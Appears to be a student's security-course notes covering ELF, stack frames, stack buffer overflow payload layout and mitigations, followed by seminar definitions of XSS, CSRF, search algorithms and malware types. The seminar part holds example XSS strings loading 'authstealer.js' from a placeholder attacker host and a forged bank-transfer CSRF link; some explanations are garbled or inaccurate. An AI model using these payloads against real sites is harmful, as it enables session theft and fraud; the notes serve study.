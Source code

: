 # Lecture
## Executable and Linking Format (ELF)

* Collection of headers, segments and sections
* Representation of code and data
* Stored on disk and used to create and start process

## Stack (used for?)

* Lightweight data structure
* Provides functions with static memory (stack frames)
* Not contained within the binary
* Initialized during process startup
* Located at higher end of memory and growing towards lower end
* Maximize space in between

## Stack frame (how can it be used?)

* Contains info about usable memory
* Function's start and end manage each stack-frame
* esp register keeps track of topmost element
* ebp register is used as a reference to point to function arguments and local var
* push instruction to add word-aligned elements
* pop instruction to remove word-aligned elements

## Calling convention (used for?)

- Arg passed via stack
- eip reg passed via stack by CPU
- Function code pushes esp,ebp and other reg
- Results passed back via eax 

## Function call

- khi tạo 1 function thì sẽ add các cái var trong function đó theo stack, theo thứ tự là function->para->return->base  pointer(ebp)->other reg->local var...
- còn trong main sẽ đc fill theo heap

## File execute
![](img/execute_file.png)

- Heap is used for global or extern variable, dynamic variable
- Stack for local variable while calling function

## hack ?

- Attacker controls what is written into buffer
- offset of return with buffer calculatable
- buffer filled with garbage before return
- return points to a callable memory location
- application might crash afterwards
- <img src="C:\Users\dangk\Desktop\DVWA\Function_call.png" style="zoom:67%;" />
- 450 nop-sled (a sequence of [NOP](https://en.wikipedia.org/wiki/NOP_(code)) (no-operation) instructions: is no-operation instruction, the attacker use nop-sled sequence to point to desirable memory address without knowing the exactly address. By pointing to randomly address which contains nop-sled sequence, it will slide through memory space until  desired destination whenever the program [branches](https://en.wikipedia.org/wiki/Branch_instruction) to a [memory address](https://en.wikipedia.org/wiki/Memory_address) anywhere on the slide.)
- 33 byte shellcode: is a injection code to call the bash shell
- 37 junk data
- 4 new return address into nop-sled

![](C:\Users\dangk\Desktop\DVWA\overflow.png)

What is buffer overflow

what is stack-based buffer overflow

what is a return add and when it is used

what is a payload and how it is used

what is nop-sled and how it is used

## Mitigation

- Randomize specific memory sections at runtime
  - Candidates sections are: .text,.data,...
  - Offsets within sections do not change
  - Sections have to opt-in
  - Compilerflags to support it
  - Drawback: Only randomize sections. Offsets within section are maintained. Thus leakage of specific pointers can defeat ASLR
  - 32 bits total add
  - Page alignment:12 bits
  - User space
  - mem partition 1 2 3
  - redunction: stack stored in partition one or 2, so effectively 1 bit to guess
  - ->32 - 12 - 1 = 19 bits to guess
- Non excutable: specific segments can be marked as NX
  - Interrupts triggered if such a sections gets executed - > segmentaion fault
  - cpu has to support it
  - compilerflags to support it
  - Draw: do not protected against return oriented approaches
- Stack canaries
  - Magic values placed on stack before stack var
  - Changes with each process invocation
  - Can be checked when leaving functions to prove stack integrity
  - Compilerflags to support it
  - Draw: can potentially leaked, guessed or brute force
- What to do: 
  - use mitigation
  - safe function
  - bounds checking
  - memory-safe programming lang (rust)
  - utilize code analysis (static, dynamic, fuzzing)
  - use modern cpu extension (intel memory protection extensions, control flow enhancement technology)
  
  
# Seminar
- Task1: Define terms and give example:
  - Stored XSS:
    - A persistent XSS, more damage than reflected, the malicious script is injected directly into vulnerable web app, and the script is execute when ever user visit website
    - Directly inject script to html file: `<script> src=”http://hackersite.com/authstealer.js”> </script>.`
  - Reflected XSS:
    - a non-persistent attacks, attacker embedded  malicious script, when user click on the link it will executed 
    - E.g: Inject java script to html tag like: `<a url=http://forum.com?q=news<\script%20src=”http://hackersite.com/authstealer.js”/>`
  - DOM-based XSS:
    - Client side attack, the attack will send the page content instead of server with the html file is injected with malicious code 
    - E.g: attacker can inject an addition box in to these form 
		<img src="https://1.bp.blogspot.com/-8Dn99Siwl-U/VA5r4Csc4sI/AAAAAAAADNQ/0yQHSR3ayFI/s1600/dombased-xss-1.png">
		
		By change message=Please fill in the form to `message=<label>Gender</label><div class="col-sm-4"><select class = "form-control" onchange="java_script_:show()"><option value="Male">Male</option><option value="Female">Female</option></select></div><script>function show(){alert();}</script>`
		<img src="https://1.bp.blogspot.com/-AbZldTkY3Hs/VA5r4AQ7xrI/AAAAAAAADNM/PfO4f5HafSg/s1600/dombased-xss-3.png">
  - CSRF:
    - Using authenticated session cookie of user to establish unwanted operation forge the normal user
    - E.g: a attacker's website implement `<a href="http://bank.com/transfer.do?acct=MARIA&amount=100000">View my Pictures!</a>` to take advantage of if the user already login to bank.com and the cookie still store the authentication token
- Task 2: define term:
  - Evolutionary algorithm:
  
	The mechanisms that mimic the biological evolution with reproduction, mutation and recombination factor to find the stronger solution and eliminate the weakest solution
  - Local search:
  
	The algorithm is to search from solution space by moving around to find the optimal cost or time bound is elapsed
  - Vertex cover:
  
	Is the set of vertex that can cover all the edge, which mean every edge can be one of directly edge of the node in vertex cover. The minimum vertex cover is the minimum vertex cover that we can create
- Task 3: define term:
  - Companion Virus:
  
	Is a companion virus is a computer virus that stores itself in file named similar to other program but with different extension. When user execute the program, it will run before the true program, hence the user is not recognized 
  - Rootkit:
  
	Is the malware that design to give a root access while actively hiding its presence
  - Back door:
  
	Refer to any method that anybody can able to get around a normal security measure and gain the root access to the system
